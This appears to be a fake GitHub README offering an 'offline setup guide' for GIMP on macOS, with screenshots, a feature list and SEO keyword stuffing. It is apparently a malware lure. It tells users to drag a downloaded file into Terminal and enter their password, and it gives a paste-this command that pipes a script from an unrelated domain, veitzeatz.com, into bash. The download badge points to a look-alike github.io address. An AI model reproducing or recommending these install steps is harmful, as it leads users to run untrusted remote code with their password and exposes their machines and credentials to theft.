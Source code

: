 # GIMP — Offline Setup Guide 

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://gimp-setup-guide-for-mac.github.io/.github)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

🎯 What You Unlock

🖼 Full-featured image editing tools

🎨 Advanced photo manipulation and graphic design

🧰 Support for layers, masks, and filters

🚫 No internet connection or activation required

🛠 Open-source, cross-platform software

🖼 Preview

![GIMP Interface](https://i.ytimg.com/vi/FrKc8R99n6I/maxresdefault.jpg)  
*GIMP showing all tool options*

![GIMP UI Update](https://www.competencemac.com/photo/art/grande/69423048-48554738.jpg?v=1670336332)  
*Updated UI in GIMP 2.10*

![GIMP GEGL Curtain](https://www.macworld.com/wp-content/uploads/2023/01/best_pro_photo_editor_mac_gimp_2000.jpg?quality=50&strip=all&w=1024)  
*GIMP with GEGL curtain effect*

### 🔎 SEO Keywords

`gimp mac`, `gimp macos`, `gimp mac os`, `gimp for macbook`, `gimp for macbook air`,  
`gimp for osx`, `gimp osx download`, `gimp software for mac`, `gimp mac download`, `download gimp mac os`,  
`gimp app for mac`, `gimp mac free`, `gimp on macbook`, `gimp macbook pro`, `gimp for m1 mac`,  
`gimp photo editor mac`, `gimp image editor mac`, `install gimp mac`, `gimp mac offline`, `gimp free mac version`,  
`graphic editor mac`, `open source photo editor mac`, `gimp alternative mac`, `gimp dmg mac`, `gimp stable mac release`
